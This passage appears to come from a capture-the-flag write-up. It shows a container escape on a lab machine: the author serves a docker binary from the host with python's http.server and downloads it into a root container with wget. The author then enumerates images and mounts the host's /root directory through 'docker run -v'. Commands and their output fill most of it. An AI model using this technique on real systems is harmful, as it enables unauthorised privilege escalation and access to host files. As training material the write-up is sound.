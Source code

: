 docker command not availble inside container

```text
tomcat@VirusBucket:/usr/bin$ python3 -m http.server 9999
python3 -m http.server 9999
Serving HTTP on 0.0.0.0 port 9999 (http://0.0.0.0:9999/) ...
172.17.0.2 - - [13/Dec/2020 23:34:47] "GET /docker HTTP/1.1" 200 -
```

Hosted python3 http.server from tomcat user in the `/usr/bin` folder

```text
root@2d24bf61767c:~# wget http://172.17.0.1:9999/docker
wget http://172.17.0.1:9999/docker
--2020-12-13 23:34:47--  http://172.17.0.1:9999/docker
Connecting to 172.17.0.1:9999... connected.
HTTP request sent, awaiting response... 200 OK
Length: 85029616 (81M) [application/octet-stream]
Saving to: ‘docker’

docker              100%[===================>]  81.09M   334MB/s    in 0.2s    

2020-12-13 23:34:47 (334 MB/s) - ‘docker’ saved [85029616/85029616]
```

downloaded the docker program to the container

```text
root@2d24bf61767c:~# chmod +x docker
chmod +x docker
root@2d24bf61767c:~# ./docker ps   
./docker ps
CONTAINER ID        IMAGE               COMMAND                  CREATED             STATUS              PORTS                                                                  NAMES
2d24bf61767c        188a2704d8b0        "/usr/bin/dumb-init …"   5 months ago        Up 7 hours          127.0.0.1:4505-4506->4505-4506/tcp, 22/tcp, 127.0.0.1:8000->8000/tcp   saltstack
root@2d24bf61767c:~# docker images
docker images
bash: docker: command not found
root@2d24bf61767c:~# ./docker images
./docker images
\REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
sandbox             latest              a24bb4013296        6 months ago        5.57MB
<none>              <none>              188a2704d8b0        7 months ago        1.06GB
```

after some enumeration I was ready to craft my command to mount the filesystem

```text
root@2d24bf61767c:~# ./docker run -v /root:/tmp -it sandbox:latest
./docker run -v /root:/tmp -it sandbox:latest
```

I mounted `/root` from the host machine to `/tmp` in the container

```text
/ # ^[[28;5Rcd /tmp
cd /tmp
/tmp # ^[[28;8Rls -la
ls -la
total 56
drwx------    6 root     root          4096 Aug 26 14:28 .
drwxr-xr-x    1 root     root          4096 Dec 13 23:37 ..
lrwxrwxrwx    1 root     root             9 Jun 17 05:14 .bash_history -> /dev/null
-rw-r--r--    1 root     root          3106 Dec  5  2019 .bashrc
drwx------    2 root     root          4096 Jun 30 09:23 .cache
drwxr-xr-x    3 root     root          4096 Jun 30 09:31 .local
-rw-r--r--    1 root     root           161 Dec  5  2019 .profile
-rw-r--r--    1 root     root            75 Jun 30 10:23 .selected_editor
```